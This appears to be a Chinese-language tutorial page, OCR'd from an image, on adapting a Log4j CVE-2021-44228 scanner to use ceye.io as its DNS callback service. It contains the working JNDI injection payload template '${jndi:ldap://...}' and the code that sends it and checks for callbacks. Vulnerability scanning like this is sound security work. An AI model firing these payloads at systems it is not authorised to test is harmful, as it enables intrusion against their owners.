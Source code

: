 ```python
parser.add_argument("--dns-callback-provider",
                    dest="dns_callback_provider",
                    help="DNS Callback provider (Options: dnslog.cn, interact.sh, ceye.io) - [Default: interact.sh].",
                    default="interact.sh",
                    action='store')
```

**4. 修改 `scan_url()` 函数**
在 `scan_url()` 函数中，确保生成的 payload 使用 `ceye.io` 的域名。找到以下代码：

```python
payload = '${jndi:ldap://%s.%s/%s}' % (parsed_url["host"], callback_host, random_string)
```

确保 `callback_host` 是 `ceye.io` 的域名。

**修改后的代码 :**
```python
class Ceye:
    def __init__(self, token, domain):
        self.token = token
        self.domain = domain
        self.session = requests.Session()
        self.session.proxies = proxies

    def pull_logs(self):
        url = f"http://api.ceye.io/v1/records?token={self.token}&type=dns"
        response = self.session.get(url, timeout=30)
        if response.status_code == 200:
            return response.json().get("data", [])
        return []

def main():
    urls = []
    if args.url:
        urls.append(args.url)
    if args.usedlist:
        with open(args.usedlist, "r") as f:
            for i in f.readlines():
                i = i.strip()
                if i == "" or i.startswith("#"):
                    continue
                urls.append(i)

    dns_callback_host = ""
    if args.custom_dns_callback_host:
        cprint(f"[•] Using custom DNS Callback host [{args.custom_dns_callback_host}]. No verification will be done after sending fuzz requests.")
        dns_callback_host = args.custom_dns_callback_host
    else:
        cprint(f"[•] Initiating DNS callback server ({args.dns_callback_provider}).")
        if args.dns_callback_provider == "interact.sh":
            dns_callback = Interactsh()
        elif args.dns_callback_provider == "dnslog.cn":
            dns_callback = Dnslog()
        elif args.dns_callback_provider == "ceye.io":
            ceye_token = "your_ceye_token"  # 替换为 ceye.io token
            ceye_domain = "your_ceye_domain"  # 替换为 ceye.io 域名
            dns_callback = Ceye(ceye_token, ceye_domain)
        else:
            raise ValueError("Invalid DNS Callback provider")
        dns_callback_host = dns_callback.domain

    cprint("[%] Checking for Log4j RCE CVE-2021-44228.", "magenta")
```